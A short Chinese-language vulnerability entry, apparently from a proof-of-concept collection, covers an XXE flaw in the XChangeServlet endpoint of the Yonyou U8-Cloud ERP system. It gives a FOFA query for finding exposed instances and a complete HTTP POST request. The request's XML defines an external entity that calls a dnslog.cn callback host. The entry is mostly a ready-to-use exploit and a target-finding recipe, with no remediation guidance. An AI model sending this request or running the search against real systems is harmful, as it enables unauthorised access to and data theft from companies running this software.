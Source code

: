 ## 用友U8-Cloud系统XChangeServlet接口存在XXE漏洞

用友U8 cloud 聚焦成长型、创新型企业的云 ERP，基于全新的企业互联网应用设计理念，为企业提供集人财物客、产供销于一体的云 ERP 整体解决方案，全面支持多组织业务协同、智能财务，人力服务、构建产业链智造平台，融合用友云服务实现企业互联网资源连接、共享、协同。该系统/service/XChangeServlet接口存在XXE漏洞，攻击者可以在xml中构造恶意命令，会导致服务器数据泄露以及被远控。



## fofa

```
app="用友-U8-Cloud"
```



## poc

```
POST /service/XChangeServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Content-Length: 129
Connection: close
Content-Type: text/xml
Accept-Encoding: gzip

<!DOCTYPE r [<!ELEMENT r ANY ><!ENTITY xxe SYSTEM "http://jbiag2.dnslog.cn/mt">]><r><a>&xxe;</a ></r>
```

![image-20240521200556542](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405212005621.png)